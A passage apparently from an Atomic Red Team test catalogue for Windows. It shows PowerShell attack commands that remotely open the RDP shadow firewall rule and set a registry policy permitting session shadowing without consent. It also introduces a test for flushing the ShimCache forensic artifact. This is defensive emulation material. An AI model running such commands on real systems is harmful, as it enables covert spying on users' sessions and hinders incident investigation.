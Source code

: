 **Supported Platforms:** Windows


**auto_generated_guid:** ac494fe5-81a4-4897-af42-e774cf005ecb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_name | The remote server that we need to shadow and have to do the registry modification. | string | localhost|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$s= New-CimSession -Computername #{server_name} -SessionOption (New-CimSessionOption -Protocol Dcom)
Get-CimInstance -Namespace ROOT\StandardCimv2 -ClassName MSFT_NetFirewallRule -Filter 'DisplayName="Remote Desktop - Shadow (TCP-In)"' -CimSession $s | Invoke-CimMethod -MethodName Enable
Invoke-CimMethod -ClassName StdRegProv -MethodName SetDWORDValue -Arguments @{hDefKey=[uint32]2147483650; sSubKeyName="Software\Policies\Microsoft\Windows NT\Terminal Services"; sValueName="shadow"; uValue=[uint32]2} -CimSession $s
```

#### Cleanup Commands:
```powershell
Invoke-CimMethod -ClassName StdRegProv -MethodName DeleteValue -Arguments @{hDefKey=[uint32]2147483650; sSubKeyName="Software\Policies\Microsoft\Windows NT\Terminal Services"; sValueName="Shadow"} -CimSession $s
```





<br/>
<br/>

## Atomic Test #73 - Flush Shimcache
The ShimCache is a component in Windows operating systems that stores information about recently executed applications. It is used by the operating system to speed up the launching process of applications. The ShimCache is also used by IR teams and Forensic teams. Forensic investigators can use the ShimCache to determine which programs have been executed on a system, even if they have been deleted or their logs have been cleared.Reference : https://blueteamops.medium.com/shimcache-flush-89daff28d15e

**Supported Platforms:** Windows


**auto_generated_guid:** ecbd533e-b45d-4239-aeff-b857c6f6d68b





